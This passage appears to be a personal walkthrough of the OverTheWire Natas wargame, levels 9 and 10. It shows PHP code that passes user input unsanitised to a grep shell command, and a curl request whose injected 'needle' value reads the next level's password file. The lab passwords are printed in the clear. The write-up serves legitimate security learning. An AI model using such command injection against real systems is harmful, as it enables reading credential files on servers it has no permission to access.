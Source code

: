 index-source.html:
```
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```


I would like to run something like: "grep -i . /etc/natas_webpass/natas" so...
```
abs@MacBookPro ~ % curl "natas9.natas.labs.overthewire.org/" -u natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t -s -d "needle=. /etc/natas_webpass/natas10; file  & submit="
Output:
<pre>
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
dictionary.txt: Unicode text, UTF-8 text
</pre>
```


# Level 9 -> 10:
```
abs@MacBookPro ~ % curl "natas10.natas.labs.overthewire.org/" -u natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu -s                                                 
For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

index-source.html:
```
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
```

